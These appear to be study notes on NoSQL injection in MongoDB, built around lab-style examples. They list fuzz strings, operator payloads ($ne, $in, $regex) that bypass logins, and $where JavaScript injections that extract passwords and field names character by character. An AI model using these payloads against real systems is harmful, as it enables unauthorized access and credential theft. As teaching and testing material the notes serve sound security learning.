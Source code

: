 # Resources
- [NoSQL Injection - Popo Hack](https://www.youtube.com/playlist?list=PLzgroH3_jK2gAop1JV_Xc393p1uAtJyAZ)
- [NoSQL Injection - Pink Boo](https://www.youtube.com/playlist?list=PL5lc0RaSiwgI_0ROPufvkeEVBzZJG93fk)
# Extensions and tools
- Content Type Converter extension to automatically convert request methods and change a URL-encoded POST request to JSON
# Types of NoSQL injection
- Syntax injection: The attacker is able to break the NoSQL syntax and inject payloads
- Operator injection: The attacker can use NoSQL query operators to manipulate queries
# NoSQL Syntax Injection
- Attempt to break the query syntax: systematically test each input by submitting fuzz strings and special characters to trigger errors or anomalies
- Start with a single quote '
- Send fuzzing strings to detect syntax injection
- Determine which characters are processed
- Confirm conditional behaviour
- Overriding existing conditions
### MongoDB Example:
https://insecure-website.com/product/lookup?category=fizzy
1. Send a fuzz string depending of the context
```
'"`{
;$Foo}
$Foo \xYZ
```
URL-Encoded
```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
As a JSON property
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```
2. See which characters are interpreted as syntax by injecting individual characters
Injecting `'` to generate error
```
this.category == '''
```
Escaping `'` to see if it doesn't cause an error
```
this.category == '\''
```
3. Try to inject boolean conditions
```
' && 0 && 'x
' && 1 && 'x
```
4. Attempt to override existing conditions
Example: inject a JavaScript condition that always evaluates to true (url-encode)
```
?category=fizzy'||1||'
```
- Warning!: Be careful when injecting conditions that always evaluate to true
    - This data could be used in multiple queries and one of those might result in accidental data deletion
- Example: add a null character at the end. Any  additional conditions on the MongoDB query will be ignored
```
https://insecure-website.com/product/lookup?category=fizzy'%00
```
# NoSQL operator injection
- Query operators allow us to provide way to specify conditions that the data must meet in order to be included in the result.
- To test for NoSQL injection operators: Systematically submit different operators into different user inputs
- MongoDB operators
```
$where - matches documets that satisfy a JavaScript expression
$ne - Matches all values that are not equal to a specified value
$in - Matches all of the values specified in an array
$regex - Selects documents where values match a specified regular expression
```
- Send the query operators in JSON messages
```json
{"username":{"$ne":"invalid"}}
```
- Send the query operators in the URL
```
username[$ne]=invalid
```
- If the query operators cannot be sent in the URL:
    - Change the request from GET to POST
    - Change the Content-Type to application/json
    - Add the JSON message with the query operator
- The Content Type Converter extension could be used to simplify this process
- Sample injections
```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
{"username":{"$regex":"regex-here"},"password":{"$ne":""}}
```
# Exploiting syntax injection to extract data
- MongoDB
- Detect if the $where operator or the mapReduc() functions are being used and limited JavaScript could be run
- Imagine an scenario where the user input ends up in the following query
```json
{"$where":"this.username == 'admin'"}
```
- Inject payloads such as the ones shown below
```js
' && this.password[0] == 'a' || 'a'=='b
' && this.password.match(/\d/) || 'a'=='b
' && this.password.length=='1
' && this.password[0]=='a
' && this.password.match("^.{0}a.*$")%00
```
- Identify field names
- Send requests probing for field names
```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'

The url-decoded payload is

admin' && this.password!='
```
- Send payloads with fields that are known to exists and fields that do not exist `this.asafsafsfs!='`
# Exploiting NoSQL operator injection to extract data
- If the original query does not use one of the operators that enable arbitrary JavaScript, you could try to inject the operator yourself
- Use boolean conditions to determine if you can execute JavaScript
- Example
- Consider the following
```
{"username":"wiener","password":"peter"}
```
- Inject NoSQL to include boolean conditions. See if there is an indication that the operator is being evaluated and has an effect
```
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```
- Extracting the field names might be required. They keys() method could be used, an example payload is shown below:
```
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```
- Extract field's value
```
"$where":"this.fieldName.match('^.{0}a.*')"
```
- The $regex operator might also be used to extract data
```
{"username":"admin","password":{"$regex":"^.*"}}
```
